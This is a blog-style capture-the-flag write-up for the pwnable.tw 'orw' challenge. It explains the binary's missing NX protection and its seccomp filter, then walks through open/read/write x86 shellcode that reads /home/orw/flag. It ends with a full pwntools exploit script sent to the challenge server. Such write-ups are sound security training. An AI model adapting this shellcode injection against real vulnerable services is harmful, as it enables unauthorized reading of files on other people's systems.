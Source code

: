 ```yaml
---
layout: post
title:  "Open Read Write shellcoding"
date:   2019-09-09 10:55:00
categories: experience
description: this article explains about ctf writeup.
tags: ctf-writeup pwn
---
```


# orw writeup [pwnable.tw]


Challenge description

	Read the flag from /home/orw/flag.
	Only open read write syscall are allowed to use.
	nc chall.pwnable.tw 10001


In this challenge we are given a binary , this is information about
the binary

	orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped

And here are some of the protections that are active in this binary

<img src="/images/2019-12-04-135243_511x105_scrot.png">

Yea, the NX protection is disabled , so we can run our code inside the stack segment

## Reverse engineering

Okay we've got some information we need , now it's time to look at the decompilation
let's open it on ghidra and see the main function

<img src="/images/2019-12-04-140618_359x196_scrot.png">

As you can see , we can input data up to 200 bytes and our input will be stored
at shellcode buffer , and after input the binary will jump to our buffer.
and if you notice that , there is orw_seccomp() function , let's use seccomp-tools
to gathering more information

<img src="/images/2019-12-04-141345_527x245_scrot.png">

This binary allow us to use those syscall, so we can try to open the flag inside
/home/orw/flag and read the value to buffer , and write the buffer.
so it's time to write some asm  , before we write the exploit we have to see syscall code you can use this site
[here](https://syscalls.kernelgrok.com/) and search for sys_open , and this is what we got

<img src="/images/2019-12-04-142625_952x76_scrot.png" class="center" style="width: 800px;">

## Exploit

We have to set eax register to 0x5 and ebx to our file path and more
so firstly to open the file, i make assembly code, like this

<img src="/images/2019-12-04-144810_250x246_scrot.png">

It will xor eax with eax so the value will set to 0 and we do the same
instructions for ecx , and mov eax with 0x5 (sys_open syscall) so now eax value will have
0x5 (sys_open syscall) , and after that i push ecx and the string (as hex) to stack
and mov ebx with esp

let's do read

<img src="/images/2019-12-04-145249_222x159_scrot.png">

Actually we mov eax with 0x3 (sys_read syscall) and mov ecx with ebx ,ecx is our buffer
and mov ebx with 0x3 because fd and mov dl with 0x30 for the size

and finally lets write it out

<img src="/images/2019-12-04-145735_225x117_scrot.png">

mov eax with 0x4 (sys_write syscall) and mov bl with 0x1 for fd

and don't forget every time we write shellcode that call a syscall we have to use int 0x80 at the end of our shellcode ,  int 0x80 is the assembly language instruction that is used to invoke system calls in Linux on x86 (i.e., Intel-compatible) processors.

here is my full exploit code :

{% highlight python %}
from pwn import *
def main():
	# sys_open()
	shellcode = asm('''
			xor 	eax, eax
			xor 	ecx, ecx
			mov 	eax, 0x5
			push 	ecx
			push 	0x67616c66       
			push 	0x2f77726f       
			push 	0x2f656d6f       
			push 	0x682f2f2f       
			mov 	ebx, esp
			int 	0x80
		''')
	# sys_read()
	shellcode += asm('''
			mov 	eax, 0x3
			mov 	ecx, ebx
			mov 	ebx, 0x3
			mov 	dl, 0x30
			int 	0x80
		''')
	# sys_write()
	shellcode += asm('''
			mov 	eax, 0x4
			mov 	bl, 0x1
			int 0x80
		''')
	#r = process("./orw")
	r = remote("chall.pwnable.tw",10001)
	r.sendline(shellcode)
	r.interactive()
if __name__ == '__main__':
	main()
{% endhighlight %}


And here is our flag :
<img src="/images/2019-12-04-151953_496x97_scrot.png">
